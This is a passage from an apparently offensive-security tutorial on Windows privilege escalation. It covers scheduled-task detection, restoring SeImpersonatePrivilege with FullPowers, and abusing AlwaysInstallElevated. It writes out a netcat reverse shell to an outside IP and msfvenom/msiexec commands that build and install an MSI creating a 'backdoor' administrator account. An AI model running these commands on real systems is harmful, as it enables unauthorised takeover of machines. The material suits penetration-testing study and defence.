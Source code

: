 :white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor creation and changes of scheduled task though Windows Event ID 4698, 4700 and 4701

For more information about that technique refer to [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

##### SeImpersonatePrivilege technique

First, let's have a look at the following [Microsoft Security Hardening feature](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-security-hardening) for scheduled tasks

> *If RequiredPrivileges is not present in the task definition, the default privileges of task principal account without the SeImpersonatePrivilege will be used for task process. If ProcessTokenSidType is not present in the task definition, “unrestricted” is used as the default.*

On Windows, some services executed as *LOCAL SERVICE* or *NETWORK SERVICE* are configured to run with a restricted set of privileges.
However, within the Register-ScheduledTask cmdlet, we can perform some token manipulation in order to get the **SeImpersonatePrivilege**

We need to pass the "-RequiredPrivilege" to the Register-ScheduledTask cmdlet in order to go around that

[FullPowers](https://github.com/itm4n/FullPowers) is a tool that allows us to automatically recovering the default privilege set of a service account including SeAssignPrimaryToken and SeImpersonate.

*Note that this tool should be executed as LOCAL SERVICE or NETWORK SERVICE only*

```bash
# Simple recovery
FullPowers
# Specify a custom command line
FullPowers -c "powershell -ep Bypass"
# Start a netcat reverse shell and exit
FullPowers -c "C:\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

#### AlwaysInstallElevated

AlwaysInstallElevated allows that any user can install .msi files as **NT AUTHORITY\SYSTEM**
You can check if it's enabled by checking both those registry keys

```bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

You can then create a malicious msi binary and execute it.

```bash
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

There is a Metasploit module for it *exploit/windows/local/always_install_elevated*

### Scheduled Tasks Enumeration
